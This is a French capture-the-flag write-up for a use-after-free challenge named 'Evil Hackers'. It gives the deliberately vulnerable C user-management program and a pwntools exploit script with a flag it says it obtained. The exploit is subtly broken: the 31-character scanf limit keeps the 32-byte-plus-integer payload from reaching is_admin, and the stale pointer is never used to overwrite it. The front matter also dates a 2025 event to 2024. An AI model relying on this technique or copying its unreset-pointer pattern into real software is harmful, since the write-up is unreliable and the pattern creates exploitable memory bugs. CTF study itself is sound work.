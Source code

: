 ```yaml
---
title: "PwnMe Junior 2025 - Evil Hackers"
date: 2024-04-14
tags: ["pwn", "use-after-free", "exploitation"]
categories: ["pwn"]
ctfs: ["pwnme-junior"]
---
```


# Write-up: Evil Hackers - PwnMe Junior 2025

## Description

Evil Hackers est un challenge de type "use-after-free" (UAF) qui simule un système de gestion d'utilisateurs vulnérable.

## Analyse du binaire

Le programme est un binaire ELF 64 bits qui offre une interface pour gérer des utilisateurs, avec plusieurs options :
1. Ajouter un utilisateur
2. Supprimer un utilisateur
3. Afficher les informations d'un utilisateur
4. Modifier le nom d'un utilisateur
5. Quitter

Voici un extrait du code source :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char name[32];
    int is_admin;
} User;

User* users[10] = {NULL};

void add_user(int idx) {
    if (idx < 0 || idx >= 10) {
        printf("Index invalide\n");
        return;
    }
    
    if (users[idx] != NULL) {
        printf("L'emplacement est déjà occupé\n");
        return;
    }
    
    users[idx] = malloc(sizeof(User));
    if (users[idx] == NULL) {
        printf("Erreur d'allocation mémoire\n");
        return;
    }
    
    printf("Nom de l'utilisateur: ");
    scanf("%31s", users[idx]->name);
    users[idx]->is_admin = 0;  // Les nouveaux utilisateurs ne sont pas admin
    
    printf("Utilisateur ajouté avec succès\n");
}

void delete_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    free(users[idx]);
    // Vulnérabilité: pointeur non réinitialisé après free
    
    printf("Utilisateur supprimé avec succès\n");
}

void show_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    printf("Nom: %s\n", users[idx]->name);
    printf("Admin: %s\n", users[idx]->is_admin ? "Oui" : "Non");
    
    if (users[idx]->is_admin) {
        printf("Flag: PwnMe{us3_4ft3r_fr33_1s_d4ng3r0us}\n");
    }
}

void edit_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    printf("Nouveau nom: ");
    scanf("%31s", users[idx]->name);
    
    printf("Nom modifié avec succès\n");
}

int main() {
    int choice, idx;
    
    while (1) {
        printf("\n===== Système de gestion des utilisateurs =====\n");
        printf("1. Ajouter un utilisateur\n");
        printf("2. Supprimer un utilisateur\n");
        printf("3. Afficher un utilisateur\n");
        printf("4. Modifier un utilisateur\n");
        printf("5. Quitter\n");
        printf("Choix: ");
        scanf("%d", &choice);
        
        if (choice == 5) break;
        
        printf("Index (0-9): ");
        scanf("%d", &idx);
        
        switch(choice) {
            case 1: add_user(idx); break;
            case 2: delete_user(idx); break;
            case 3: show_user(idx); break;
            case 4: edit_user(idx); break;
            default: printf("Option invalide\n");
        }
    }
    
    return 0;
}
```

## Vulnérabilité

La vulnérabilité principale est un Use-After-Free (UAF) : après la libération d'un utilisateur avec `delete_user()`, le pointeur `users[idx]` n'est pas mis à NULL. Cela signifie qu'il est possible d'accéder et de modifier cette zone mémoire après qu'elle ait été libérée.

## Exploitation

L'exploitation se fait en plusieurs étapes :
1. Créer un utilisateur à l'index 0
2. Supprimer cet utilisateur (libération de la mémoire)
3. Créer un nouvel utilisateur à l'index 1, qui réutilisera probablement la même zone mémoire
4. Modifier le nom de l'utilisateur à l'index 1 pour écraser la valeur `is_admin` de la structure
5. Afficher l'utilisateur à l'index 0 pour obtenir le flag

```python
from pwn import *

# Connexion au serveur
conn = remote('challenge.pwnme.fr', 1338)

# Fonction pour naviguer dans le menu
def menu(choice, idx):
    conn.sendlineafter(b"Choix: ", str(choice).encode())
    if choice != 5:  # L'option 5 ne demande pas d'index
        conn.sendlineafter(b"Index (0-9): ", str(idx).encode())

# 1. Ajouter un utilisateur à l'index 0
menu(1, 0)
conn.sendlineafter(b"Nom de l'utilisateur: ", b"user1")

# 2. Supprimer cet utilisateur (libération de la mémoire)
menu(2, 0)

# 3. Créer un nouvel utilisateur à l'index 1
menu(1, 1)
conn.sendlineafter(b"Nom de l'utilisateur: ", b"user2")

# 4. Modifier l'utilisateur à l'index 1 pour écraser la valeur is_admin
# Créer un payload qui remplit le name (32 octets) et écrit 1 dans is_admin
menu(4, 1)
payload = b"A" * 32 + p32(1)  # 32 'A' + valeur 1 pour is_admin
conn.sendlineafter(b"Nouveau nom: ", payload)

# 5. Afficher l'utilisateur à l'index 0 pour obtenir le flag
menu(3, 0)

# Récupérer et afficher le flag
conn.recvuntil(b"Flag: ")
flag = conn.recvline().strip().decode()
print(f"Flag: {flag}")

# Quitter proprement
menu(5, 0)
conn.close()
```

## Flag

En exécutant l'exploit, nous obtenons le flag : `PwnMe{us3_4ft3r_fr33_1s_d4ng3r0us}` 